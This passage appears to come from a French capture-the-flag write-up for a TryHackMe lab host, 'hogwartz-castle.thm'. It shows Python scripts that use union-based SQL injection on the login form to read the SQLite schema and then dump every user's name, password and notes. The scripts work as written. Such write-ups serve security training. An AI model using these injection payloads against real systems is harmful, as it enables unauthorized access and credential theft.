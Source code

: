 On teste avec SQLite ça fonctionne on obtient un table qui a comme nom users.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select 1,2,3,sql from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for 1 is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```

Cette commande permet d'obtenir la commande pour créer la table users.  
On extrait les noms de colonnes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select name,2,3,admin from users -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for Aaliyah Allen is incorrect! 0"}
```

On teste le nom admin sur depuis users, on a un nom.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat dump.py 
#!/usr/bin/env python3

import requests
import re
import json

url = "http://hogwartz-castle.thm/"
patt = re.compile('(.* .*:.*:.*)',re.DOTALL)


concat = "(name || ':' || password || ':' || notes)"
data = {}
data['password'] = 'whateves'
i = 0

while True:
    payload = f"' union select 1,2,3,{concat} from users limit 1 offset {i} -- "
    data['user'] = payload
    r = requests.post(url + '/login', data=data)
    if r.status_code == 200:
        break
    m = json.loads(r.text)['error'].split('!')[1].strip()
    message = patt.findall(m)[0]
    name, password, notes = message.split(':')
    print("{:20} | {:50}".format(name, password))
    print("{:20} | {}".format('',notes))
    i += 1
```
